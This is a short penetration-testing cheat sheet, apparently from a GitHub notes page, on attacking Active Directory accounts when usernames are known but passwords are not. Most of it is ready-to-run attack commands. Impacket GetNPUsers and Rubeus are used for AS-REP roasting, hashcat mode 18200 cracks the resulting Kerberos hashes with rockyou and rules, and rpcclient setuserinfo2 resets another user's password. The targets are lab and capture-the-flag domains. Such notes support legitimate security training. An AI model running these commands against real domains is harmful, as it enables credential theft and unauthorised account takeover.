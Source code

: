 ## We got Users but no Pass?

### Links

- [GitHub Rubeus](https://github.com/GhostPack/Rubeus)
### ASREP Roasting Attack

```
impacket-GetNPUsers htb.local/ -usersfile user.txt -format hashcat -outputfile hashes.domain.txt

or this:

for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.192 blackfield.local/$user | grep krb5asrep; done



.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username]
```

```

impacket-GetNPUsers -dc-ip 192.168.205.70  -request -outputfile hashes.asreproast corp.com/pete
hashcat --help | grep -i "Kerberos"

sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

cd C:\Tools
.\Rubeus.exe asreproast /nowrap

sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```


### Password Reset over RPC

https://room362.com/posts/2017/reset-ad-user-password-with-linux/

```
Log into Rpc with the user who can change password of other user:

rpcclient $> setuserinfo2

rpcclient $> setuserinfo2 audit2020 23 'Bwiz123!!!'

```

